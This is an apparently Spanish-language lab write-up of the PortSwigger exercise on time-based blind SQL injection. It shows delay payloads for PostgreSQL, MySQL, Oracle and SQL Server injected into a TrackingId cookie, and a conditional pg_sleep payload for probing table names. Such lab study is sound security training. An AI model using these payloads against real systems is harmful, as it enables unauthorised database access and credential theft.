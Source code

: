 ```yaml
---
title: "14 Blind SQL injection with time delays and information retrieval"
collection: publications
category: portswigger
permalink: /publications/SQLi/14_Blind SQL injection with time delays and information retrieval
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. Para resolver el laboratorio, explotamos la vulnerabilidad de inyección SQL basada en el tiempo y obtenemos la contraseña del usuario administrador.'
date: 2024-12-02
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Blind SQL injection with time delays and information retrieval'
---
```


![logo]({{site.url}}/images/SQLi/sqli-14/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-14/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, inicia sesión como usuario `administrator`.

## Analisis del campo vulnerable

En esta ocación vamos a probar el `TrackingId` si es vulnerable a Blind SQLi basado en tiempo. Necesitamos averiguar que Motor de BD es. Y vemos que es un `PostgreSQL`

![Cheat]({{site.url}}/images/SQLi/sqli-13/cheat.png)

```sql
' || (SELECT pg_sleep(10))--                                -> Payload para BD PostgreSQL   ✅
' || (SELECT sleep(10))--                                   -> Payload para BD MySQL   ❌
' || (SELECT dbms_pipe.receive_message(('a'), 10))--        -> Payload para BD Oracle   ❌
' || WAITFOR DELAY '0:0:10'--                               -> Payload para BD SQL Server   ❌
```

![Tiempo]({{site.url}}/images/SQLi/sqli-14/tiempo.png)

## Comprobamos nombres de tablas

Donde se encuentra la palabra `payload` colocamos nombres de tablas, si existe se demora 5 segundos en responde en caso contrario demora menos.

```sql
' || (SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(2) END FROM payload)--
```
